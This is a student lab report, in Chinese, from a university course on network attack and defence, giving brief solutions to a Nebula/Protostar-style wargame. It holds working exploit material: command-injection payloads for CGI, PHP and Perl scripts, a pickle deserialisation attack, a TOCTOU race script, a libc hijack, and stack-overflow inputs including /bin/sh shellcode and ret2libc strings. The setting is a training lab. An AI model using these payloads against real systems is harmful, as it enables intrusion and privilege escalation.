


[TOC]

# <center>《网络攻防实战》实验报告</center>

### **第3次实验：wargame**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10-2019.11

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

###  level02
attack-env-again

修改USER变量, export USER='`/bin/getflag01`'


### level03
attack-crontab

在writable.d下创建文件test，内容为`/bin/getflag03>/home/flag03/a.txt`
程序会不定期调用该test文件
在a.txt中查看flag


### level04
get-token

用ln -s /home/flag04/token /home/level04/test1创建链接
执行flag04 获得密码
登录flag04用户获取flag


### level05
steal-key

ls -a查看隐藏文件，将文件拷贝到home里，解压缩，ssh登录


### level06
crack-password

在passwd中找到flag06密码，用john破解，得到密码ftc，远程登录
vi /etc/passwd
john hash001(复制密码到该文件中)


### level07
cgi-vuln

在/home/flag07下找到index.cgi文件，并根据thpptd得知文件在8888端口
通过浏览器访问8888下的index.cgi文件
查询文件，得知需要Host参数，于是在后面加上?Host=127.0.0.1%26/bin/getflag07(其中%26位&的url加密格式)


### level08

analyze-packets

在flag08下找到数据包文件，先拷贝到level08下，再远程传送到本地，利用wireshark分析数据包
找到password后面的明文字符为：
backdoor+【del】+【del】+【del】+00R+m8+【del】+ate+【enter】
整合后，密码为`backd00Rmate`
登录后获得flag


### level09

attack-php

在flag09下查看PHP文件，注意到php正则匹配中有\e模式，preg_replace的第二个参数会被当做代码执行，因此在level09下创建临时文件test，内容为：
`[email ${${system(getflag09)}}]`
成功获得flag


### level10

race-conf-vuln

TOCTOU（time of check，time of use）问题
程序先根据uid判断是否有读取权限，如果有，才能继续执行，破解方法是先打开一个当前用户有权限的程序，再对打开的内容进行更改；程序输出在18888端口

窗口1：
监听18888端口
`nc -k -l 127.0.0.1 18888`

窗口2：
新建一个窗口，在/tmp目录下创建token文件，作为有权限打开的假token文件；创建一个可执行文件xx，执行循环：
```
while true
do
    ln -sf /tmp/token /tmp/token10
    ln /sf /home/flag10/token /tmp/token10
done
```
执行命令
`chmod +x xx;./xx`

窗口3：
新建一个窗口，在/tmp目录下创建一个可执行文件yy，执行循环：
```
while true
do
    nice -n 19 /home/flag10/flag10 /tmp/token10 127.0.0.1
done
```

在窗口一中获得flag10的token：`b3c5-6d82-7sfc`
登录，获取flag


### level11

exec-vuln

观察`system(buffer)`的中buffer的生成规则，写出加密代码


编译成a.out，设置TEMP环境变量然后运行，得到flag


### level12

attack-lua

`echo password`存在shell执行的漏洞，用nc连接本地50000端口，输入\`getflag12>/tmp/1\`，就能得到flag


### level13

steal-token-again

用gdb调试flag13，在if的跳转语句前把获取到的uid的寄存器修改为1000，得到token，登录flag13用户得到flag


### level14

crack-encry-file

编写暴力破解token密文的代码，得到明文，登录flag14得到flag




### level15

dll-hijack

观察`strace ./flag15`发现一直在调用`libc.so.6`这个共享库，就自己写一个这个库，还有一个运行`getflag16`的伪system函数


编译这两个文件`gcc -shared -fPIC -nostdlib -o /var/tmp/flag15/libc.so.6 ~/1.c ~/1.s`到共享库，运行flag15得到flag


### level16

perl-cgi-vuln

观察代码发现有执行shell脚本的漏洞。需要通过`username`变量来将`getflag16`代入。为了看见命令的执行结果，就把输出重定向到`/tmp/flag`，写成脚本的形式


在`username`字段中写\`a=/tmp/getflag;${a,,};\`，并将其转义成url格式`%60a%3D%2Ftmp%2Fgetflag%3B%24%7Ba%2C%2C%7D%3B%60`，访问`http://IP:1818/index.cgi?username=%60a%3D%2Ftmp%2Fgetflag%3B%24%7Ba%2C%2C%7D%3B%60&password=1`后，在`/tmp/flag`得到flag


### level17

python-pickle-vuln

在python中定义一个类，并且把`os.system`和`getflag17>/tmp/1`作为参数产生一个对象后进行序列化，并且保存到文件里


用nc连接本地10008端口，并且把序列化的内容传过去。在`/tmp/1`中就是flag


### level18

level18-vuln

先用1024次的login占满文件描述符，然后用closelog关闭调试文件，再用shell启动bash。我把这一系列的操作写在文件里方便调用。


然后使用`cat ~/1 | ./flag18 -d /tmp/d`发现能运行bash但是参数错误，就使用`--init-file`参数


发现bash调用成功，并且有一个叫`Starting`的调用，则在/tmp目录下新建这一个脚本，并且添加到环境变量里


再次使用`cat ~/1 | ./flag18 --init-file -d /tmp/d`命令，原来的错误消失了，查看/tmp目录下有flag了


### level19

break-process

写c代码使得程序fork出父子进程，父进程在休眠1秒后退出，子进程休眠2秒后被init接管，通过sh调用`/bin/getflag19`得到flag


### level20

stack-overflow-change-variable

观察程序，gets参数存在漏洞，通过输入覆盖modified值，通过反汇编可知，modified变量值储存在ebp-0xc，即0xbffff62c中，通过输入覆盖至此，即可获得flag
输入：
`./flag20`
`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1111`

遇到问题:
在gdb调试过程中修改寄存器或标志位后，程序拒绝访问，因此只能通过输入覆盖



### level21

stack-overflow-change-variable-to-the-right-value

观察程序，关键为比较modified和0x56575859，通过输入命令行参数覆盖modified，modified地址为ebp-0xc，即0xbffff60c，覆盖时每四个字节为小头字节序，因此0x56575859换序为YXWV，
输入（没有换行）：
`./flag21 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPYXWV`


### level22

 stack-overflow-modify-variable

观察程序，需要设置环境变量NJUCS，同时覆盖modified的值为0x0d0a0d0a，通过定位，更改NJUCS的值，其中涉及不可见字符，用echo形式返回值，输入命令（没有换行）：

```
export NJUCS=`echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x0a\x0d\x0a\x0d'`
```

再执行程序`./flag22`，得到flag


### level23

stack-overflow-overwrite-function-pointer

观察程序，需要将fp的地址指向win，通过输入gets覆盖到fp的值，定位为ebp-0xc，即0xbffff62c，同时，fp地址包含不可见字符，通过管道重定向，输入为（没有换行）：
` echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x6b\x84\x04\x08'|./flag23`
成功得到flag


### level24

stack-overflow-flow-change

观察程序，利用gets函数覆盖返回地址，到win函数的地址，win函数地址为0x80483f4，查看main函数汇编代码，通过测试输入的位置，用$ebp-输入起始地址+4，就是返回地址的开始点，于是输入如下命令：
```
echo -e `python -c "'A'*(0x40+12)+'\xf4'+'\x83'+'\x04'+'\x08'"`|./flag24
```


### level24.odd

stack-overflow-flow-change

同level24，利用栈溢出覆盖返回地址，同时注意不能改变ecx，即ebp-0x4位置的值，具体命令如下
```
echo -e `python -c "print 'A'*(0x44)+'\x50\xf6\xff\xbf'+'A'*4+'\x3b\x84\x04\x08'"`|./flag24.odd
```
得到flag


### level25

stack-overflow-shellcode

通过gets溢出覆盖eip地址，将其改为网上查找到的shellcode代码，修改后的python文件如下，其中pad填充至eip，EIP为新EIP地址，后面为shellcode代码
```python
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff650)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```


### level26

stack-overflow-change-ret

题目对于返回地址做了限制，于是通过调用system的返回地址，设置环境变量，得到flag
具体代码如下：
`export TEST="getflag26"`
新建get.c文件
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main( int argc, char** argv){
                char *ptr;
                if(argc < 3) {
                                printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
                                exit(0);
                }
                ptr = getenv(argv[1]); /* get env var location */
                ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
                printf("%s will be at %p\n", argv[1], ptr);
```
执行
` ./a.out TEST /home/flag26/flag26`
得到TEST的env地址
`TEST will be at 0xbffffef5`
接着通过让system+env地址覆盖，得到flag
`python -c "print 'a'*80 + '\xa0\x3d\xe5\xb7\xd0\x79\xe4\xb7\xf5\xfe\xff\xbf'"|/home/flag26/flag26`


### level27

stack-overflow-call-jmp

程序对返回地址做了进一步限制，由于新增了strdup代码，于是可以利用eax更改返回值
通过gdb调试，得到eax地址：0x08048550
得到system地址：0xb7e53da0
定义env：TEST，同上题，得到地址：\xf2\xfe\xff\xbf

通过python函数定义payload：
```
ffset = 76
nopsled = "\x90" * offset
ret = "\x53\x85\x04\x08"
system = "\xa0\x3d\xe5\xb7"
system_argv = "\xf2\xfe\xff\xbf"
print nopsled + "FAKE" + ret + system + "FAKE" + system_argv
```

通过`python test.py|/home/flag27/flag27`得到flag


### level 28

## 三、 实验结果

参见实验内容

## 四、 实验中遇到的问题及解决方案


## 五、 组员分工

分别完成了一部分题目。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）

1个月